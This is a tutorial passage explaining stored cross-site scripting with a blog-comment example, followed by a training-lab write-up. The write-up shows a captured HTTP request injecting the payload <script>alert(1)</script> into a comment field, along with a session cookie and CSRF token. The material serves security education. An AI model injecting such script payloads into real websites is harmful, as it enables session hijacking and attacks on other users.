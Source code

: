 #### What is stored cross-site scripting?   
Stored XSS or persistent XSS araises when an application recieves data from an untrusted source and includes that data within its later HTTP responses in an unsafe way. 

Suppose a website allows users to submit comments on blog posts, which are displayed to other users. Users submit comments using an HTTP  request like the following:  

>POST /post/comment HTTP/1.1  
>Host: vulnerable-website.com  
>Content-Length: 100  

postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net  

After this comment has been submitted, any user who visits the blog post will receive the following within the application's response:
<p>This post was extremely helpful.</p>  
Assuming the application doesn't perform any other processing of the data, an attacker can submit a malicious comment like this:
<script>/* Bad stuff here... */</script>  

Within the attacker's request, this comment would be URL-encoded as:  
comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E  

Any user who visits the blog post will now receive the following within the application's response:
<p><script>/* Bad stuff here... */</script></p>  

The script supplied by the attacker will then execute in the victim user's browser, in the context of their session with the application. 

***

###### Lab: Stored XSS into HTML context with nothing encoded  
POST /post/comment HTTP/1.1  
Host: ac3a1ff01e93fd038023e57d00360025.web-security-academy.net  
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate  
Referer: https://ac3a1ff01e93fd038023e57d00360025.web-security-academy.net/post?postId=2  
Cookie: session=uE2UxMTA7XRIh1tvGZfMWOgWpunGIQUZ  
Connection: close  
Upgrade-Insecure-Requests: 1  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 144  

csrf=DrnM0FYX8iuxJY8DWROKokJK6svLtua9&postId=2&comment=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&name=wardaddy&email=wardaddy%40localhost&website=
